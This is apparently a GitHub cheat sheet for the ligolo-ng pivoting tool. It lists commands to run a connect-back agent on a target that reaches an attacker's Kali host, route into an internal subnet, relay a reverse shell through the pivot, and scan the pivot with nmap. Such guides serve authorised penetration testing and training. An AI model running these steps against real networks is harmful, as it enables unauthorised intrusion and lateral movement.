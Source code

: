 # 🛡️ ligolo-ng Cheat Sheet

External Interface: `10.1.1.10/24`  
Internal Interface: `10.1.2.4/24`

## 🖥️ On Kali (Attacker Machine)
1. Create and enable the TUN interface
```bash
ip tuntap add user root mode tun ligolo
ip link set ligolo up
ip addr show ligolo
```
2. Start the ligolo proxy
```bash
ligolo-proxy -selfcert
# Use -autocert during real red team engagements
```
## 🧩 On Target Machine
3. Run the agent to connect to the attacker
```bash
./agent -connect <kali_ip>:11601 -ignore-cert
# If -autocert was used on the proxy, -ignore-cert is not required
```
## 🔗 On Kali (in ligolo-ng session)
4. Interact with session
```bash
ligolo-ng » session
```
5. Add a route to the internal network
```bash
ip route add 10.1.2.0/24 dev ligolo
```
6. Start the tunnel
```bash
start
```
✅ Tunnel to the internal network is now established.
## 🔄 Reverse Shell from Internal to Attacker (Port Redirection)
7. Setup a listener inside the ligolo-ng session
```bash
listener_add --addr 0.0.0.0:30000 --to 127.0.0.1:10000 --tcp

# 0.0.0.0:30000 → Listens on the target machine
# 127.0.0.1:10000 → Redirects traffic to attacker machine

💡 While generating a reverse shell payload:
# Use target machine’s IP and port 30000 (or any random port)
# Traffic will be forwarded to attacker's port 10000 (or any random port)
```
## 📡 Access Pivot Machine’s Ports (Direct Scanning)
8. Add a specific route to access the pivot machine itself
```bash
ip route add 240.0.0.1/32 dev ligolo
# 240.0.0.1 is a special IP address used by ligolo-ng to represent the pivot machine itself (the host where the agent is running).
```
9. Scan the pivot machine using Nmap
```bash
nmap 240.0.0.1
```
🔍 This will reveal open ports on the pivot machine, accessible via the ligolo tunnel.
🧹 Cleanup – Deleting the ligolo Interface (On Kali)
10. Remove the TUN interface after you're done
```bash
ip link set ligolo down
ip link delete ligolo
# Safely deletes the ligolo TUN interface from your Kali machine.
```
